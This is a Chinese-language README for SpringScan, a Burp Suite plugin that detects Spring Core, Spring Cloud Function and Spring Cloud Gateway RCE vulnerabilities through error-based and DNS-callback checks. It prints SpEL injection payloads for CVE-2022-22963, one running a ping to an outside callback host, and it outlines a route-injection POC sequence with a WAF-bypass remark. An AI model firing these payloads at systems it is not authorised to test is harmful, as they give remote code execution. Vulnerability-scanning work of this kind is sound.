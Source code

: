 # SpringScan Burp 检测插件

## 支持检测漏洞

- [x] Spring Core RCE (**CVE-2022-22965**)
- [x] Spring Cloud Function SpEL RCE (**CVE-2022-22963**)
- [x] Spring Cloud GateWay SPEL RCE (**CVE-2022-22947**)

## 回连平台

- [x] Dnglog
- [x] BurpCollaboratorClient
- [x] Ceye
- [x] Digpm  (默认)
- [ ] 支持自定义回连平台

### CVE-2022-22965 检测方法

利用条件

* JDK9及其以上版本；
* 使⽤了Spring-beans包； 
* 使⽤了Spring参数绑定，参数绑定使⽤的是⾮基本参数类型，如POJO ；

* 使用Tomcat部署，且日志记录功能开启（默认开启）

因为这个洞上传shell还需要准确的web路径（默认在webapps\ROOT），写ssh和计划任务也需要root权限。实战中用exp去检测漏洞不太现实，所以思路转变到使用其他方法去检测漏洞的存在性。主要通过下面两种方式检测：

* 报错检测
* 回连检测（BurpCollaboratorClient/Dnglos/Ceye）

详细原理 ➡️ [https://www.t00ls.cc/articles-65348.html](https://www.t00ls.cc/articles-65348.html)

检测置信度：

> 回连检测 > 报错检测

报错检测误报率较大(默认关闭)，可能存在漏洞但不能保证JDK版本大于等于**9**，可以及时捕捉到不出网的漏洞；回连检测准确率高，不适用于不出网环境。
推荐在内网的环境只开启报错检测，在公网环境开报错检测和回连检测。

### CVE-2022-22963 检测方法 

利用条件

* 默认路由`/functionRouter`存在SpEL表达式注入

两种检测方法：

* 通过Java自带InetAddres库：`spring.cloud.function.routing-expression:T(java.net.InetAddress).getByName("xxx.dnslog.cn")`回连探测（可绕过WAF拦截命令执行进行漏洞探测）
* 通过执行`ping`命令：`spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("ping xxx.dnslog.cn")`回连探测
* 会扫描当前URI、以及当前URI拼接默认路由`/functionRouter`进行漏洞探测。

### CVE-2022-22947 检测方法

* 利用条件

该漏洞为当Spring Cloud Gateway启用和暴露 Gateway Actuator 端点时，使用 Spring Cloud Gateway 的应用程序可受到代码注入攻击。攻击者可以发送特制的恶意请求，从而远程执行任意代码。

检测方法：

* 首先随机访问一个不存在的路径，根据特征`Whitelabel Error Page`判断是否是Spring框架；是则打POC，分五个请求：`包含恶意SpEL表达式的路由 -> 刷新路由 -> 访问添加的路由查看RCE结果 -> 删除路由 -> 刷新路由`

## 插件情况

|  **报错检测**   | **回连检测**  | **自带检测**  |
|  :----:  | :----:  | :----:  |
| Spring Core RCE  | Spring Core RCE | Spring Cloud GateWay SPEL RCE |
| x  | Spring Cloud Function SpEL RCE | x |

## 编译

如需编译其他JDK版本，可参考如下方法编译jar包：

![image-20220409120135726](imgs/image-20220409120135726.png)

<img src="imgs/image-20220409120218010.png" alt="image-20220409120218010" style="zoom:50%;" />

<img src="imgs/image-20220409120315324.png" alt="image-20220409120315324" style="zoom:50%;" />

<img src="imgs/image-20220409120455863.png" alt="image-20220409120455863" style="zoom:50%;" />

## 截图

* 加载插件成功

![image-20220409120649662](imgs/image-20220409120649662.png)

* 漏洞检测情况

![image-20220411234911184](imgs/image-20220411234911184.png)

![image-20220411234930710](imgs/image-20220411234930710.png)

![image-20220411234948718](imgs/image-20220411234948718.png)

* 报错检测情况

![image-20220425233957353](imgs/image-20220425233957353.png)

target 模块中可以看到漏洞详情

![image-20220409124402852](imgs/image-20220409124402852.png)

* 插件设置，检测方法默认全开启，回连平台默认`Dig.pm`(推荐)

![image-20220409120720309](imgs/image-20220409120720309.png)

![image-20220413012818703](imgs/image-20220413012818703.png)

* 主动扫描：当不希望每个 URL都做被动扫描时，可以将插件关闭（检测方法正常开启），`右键请求数据包 -> Extensions -> SpringScan -> doScan`即可进行主动扫描：

![image-20220430194559458](imgs/image-20220430194559458.png)

## 免责声明

本工具仅作为安全研究交流，请勿用于非法用途。如您在使用本工具的过程中存在任何非法行为，您需自行承担相应后果，本人将不承担任何法律及连带责任。
